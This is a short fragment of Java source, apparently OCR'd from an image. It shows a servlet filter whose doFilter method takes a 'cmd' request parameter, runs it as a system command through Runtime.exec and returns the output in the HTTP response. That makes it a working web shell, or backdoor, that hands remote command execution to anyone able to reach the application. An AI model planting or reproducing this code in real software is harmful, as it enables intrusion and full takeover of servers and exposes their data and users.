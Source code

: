 ```java

    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        HttpServletRequest req = (HttpServletRequest) servletRequest;
        if (req.getParameter("cmd") != null){
            Process process = Runtime.getRuntime().exec(req.getParameter("cmd"));
            java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                    new java.io.InputStreamReader(process.getInputStream()));
            StringBuilder stringBuilder = new StringBuilder();
            String line;
            while ((line = bufferedReader.readLine()) != null) {
                stringBuilder.append(line + '\n');
            }
            servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
            servletResponse.getOutputStream().flush();
            servletResponse.getOutputStream().close();
            return;
        }
        filterChain.doFilter(servletRequest,servletResponse);
    }

    @Override
    public void destroy() {
    }
}
```

